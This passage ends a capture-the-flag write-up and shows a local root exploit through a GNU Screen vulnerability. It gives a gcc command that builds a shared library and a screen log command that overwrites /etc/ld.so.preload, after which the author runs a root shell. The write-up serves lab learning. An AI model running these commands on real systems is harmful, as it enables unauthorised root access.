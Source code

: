```console
gcc -fPIC -shared -ldl /tmp/lib_shell.c -o /tmp/lib_shell.so
```

+ **What we need to do now is to overwrite the `/etc/ld.so.preload` file with our shared library** `shell_library.so` **which executes the shell with root privilege.**
**Let's first move into the /etc directory**

```console
cd /etc
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/lib_shell.so"
screen -ls
/tmp/root_sh
```

**And we are root!**

![17](images/root_flag_4.jpg)

+ **This was a very nice box, we learnt about .JPG corrupted files, a GNU Screen vulnerability, some `ld.so.preload` file overwriting to gain the desired shell and I encourage you hardly to read the [ld.so man page](https://man7.org/linux/man-pages/man8/ld.so.8.html).**
